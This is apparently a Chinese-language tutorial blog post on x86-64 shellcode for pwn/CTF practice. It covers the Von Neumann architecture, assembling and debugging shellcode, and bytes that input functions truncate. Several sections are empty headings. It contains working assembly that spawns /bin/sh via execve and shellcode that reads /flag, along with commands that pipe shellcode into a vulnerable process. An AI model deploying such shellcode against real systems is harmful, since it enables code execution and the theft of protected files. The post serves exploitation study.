 ```yaml
---
layout: post
tags: [pwn]
title: "shellcode"
date: 2024-8-8
author: wsxk
comments: true
---
```


- [1. 介绍: shellcode是什么](#1-介绍-shellcode是什么)
- [2. 编写shellcode](#2-编写shellcode)
- [3. debugging shellcode](#3-debugging-shellcode)
- [4. Forbidden Bytes](#4-forbidden-bytes)
  - [4.1 常见的限制](#41-常见的限制)
  - [4.2 创造性地构造shellcode!](#42-创造性地构造shellcode)
- [5. Common Gotchas](#5-common-gotchas)
- [6. Cross-Architecture shellcode](#6-cross-architecture-shellcode)
- [7. Data Execution Prevention](#7-data-execution-prevention)
- [8. shellcode program](#8-shellcode-program)


## 1. 介绍: shellcode是什么<br>
谈起`shellcode`，就要谈起`冯诺依曼架构(Von Neumann Architecture)和哈佛架构(Harvard Architecture)`了<br>
冯诺依曼架构把代码和数据等同的，而哈佛架构设计上就把代码和数据隔离开来。<br>
当今几乎所有架构，例如`x86, ARM, MIPS, PPC(power pc), SPARC(Scalable Processor Architecture,国际最流行的risc体系架构, etc`，都是冯诺依曼架构。<br>
更多了解[https://zhuanlan.zhihu.com/p/481536761](https://zhuanlan.zhihu.com/p/481536761)<br>
哈佛架构只被用在`AVR, PIC`里（这俩架构都主要用在单片机上）<br>
当冯诺依曼架构中，因为数据和代码是混合在一起的，这就导致了`shellcode`的产生<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-3-25/20240808221010.png)
上图中，因为一个编程失误，导致**用户输入(data)被作为代码(code)执行**。<br>

## 2. 编写shellcode<br>
`shellcode`之所以叫`shellcode`，是因为**利用的目标就是达成任意命令执行**,而一个经典的攻击模式就是启动`shell`:`execve("/bin/sh", NULL, NULL)`<br>
```asm
.global _start
_start:
.intel_syntax noprefix
mov rax, 59		# this is the syscall number of execve
lea rdi, [rip+binsh]	# points the first argument of execve at the /bin/sh string below
mov rsi, 0		# this makes the second argument, argv, NULL
mov rdx, 0		# this makes the third argument, envp, NULL
syscall			# this triggers the system call
binsh:				# a label marking where the /bin/sh string is
.string "/bin/sh"
```
在写完`asm`后，介绍一下编译等涉及汇编的命令吧<br>
```
1. Assembling shellcode:
gcc -nostdlib -static shellcode.s -o shellcode-elf

2. Extracting shellcode:
objcopy --dump-section .text=shellcode-raw shellcode-elf

3. Disassembling shellcode:
objdump -M intel -d shellcode-elf

4. Sending shellcode to the stdin of a process (with user input afterwards):
cat shellcode-raw /dev/stdin | /vulnerable_process

5. Strace a program with your shellcode as input:
cat shellcode-raw | strace /vulnerable_process

6. Debug a program with your shellcode as input:
gdb /vulnerable_process
(gdb) r < shellcode-raw
```
这些命令在编写`shellcode`时是非常有用的，下面还有一些好用的工具可供选择！<br>
```
1. pwntools (https://github.com/Gallopsled/pwntools), a library for writing exploits (and shellcode).

2. rappel (https://github.com/yrp604/rappel) lets you explore the effects of instructions.
easily installable via https://github.com/zardus/ctf-tools  

3. amd64 opcode listing: http://ref.x86asm.net/coder64.html 

4. Several gdb plugins exist to make exploit debugging easier!
https://github.com/scwuaptx/Pwngdb
https://github.com/pwndbg/pwndbg
https://github.com/longld/peda 
```

## 3. debugging shellcode<br>
如果想以高层次的信息来debug，可以用:<br>
```
gcc -nostdlib -static shellcode.s -o shellcode.elf
strace ./shellcode.elf
```
来追踪。<br>
如果想要每条汇编的执行，可以用：<br>
```
gdb ./shellcode-elf
```

## 4. Forbidden Bytes<br>
编写shellcode的时候不总是一帆风顺，即使你碰到了可以写入shellcode1的漏洞，在利用漏洞之前，可能程序对输入做了限制，这里就需要一些其他的`trick`<br>
### 4.1 常见的限制<br>
某些字符在某些函数下会被截断，导致shellcode被截断:<br>

| Byte (Hex Value)      | Problematic Methods |
| :-----------: | :-----------: |
| Null byte \0 (0x00)      | strcpy       |
| Newline \n (0x0a)   | scanf gets getline fgets     |
|Carriage return \r (0x0d)| scanf|
|Space (0x20)| scanf |
|Tab \t (0x09)| scanf |
|DEL (0x7f)| protocol-specific (telnet, VT100, etc)|

### 4.2 创造性地构造shellcode!<br>



## 5. Common Gotchas<br>

## 6. Cross-Architecture shellcode<br>

## 7. Data Execution Prevention<br>

## 8. shellcode program<br>
使用如下命令进行编译:<br>
```
gcc -nostdlib -static shellcode.s -o shellcode.elf
objcopy --dump-section .text=shellcode.raw shellcode.elf
```
汇编代码如下:<br>
```asm
.global _start
_start:
.intel_syntax noprefix
        mov rax, 2 # sys_create
        lea rdi, [rip+file_name] # file_name
        mov rsi, 2 # O_RDWR
        syscall
        lea rdi, [rip+file_fd]
        mov [rdi], eax

        mov rax, 0 # sys_read
        mov edi, [rip+file_fd]
        lea rsi, [rip+buffer]
        mov edx, [rip+buffer_len]
        syscall

        mov rax, 1 # sys_write
        mov rdi, 1 # stdout
        lea rsi, [rip+buffer]
        mov edx, [rip+buffer_len]
        syscall
binsh:
        .string "/bin/sh"
file_name:
        .string "/flag"
file_fd:
        .long 0
buffer:
        .space 0x100
buffer_len:
        .long 0x100
```
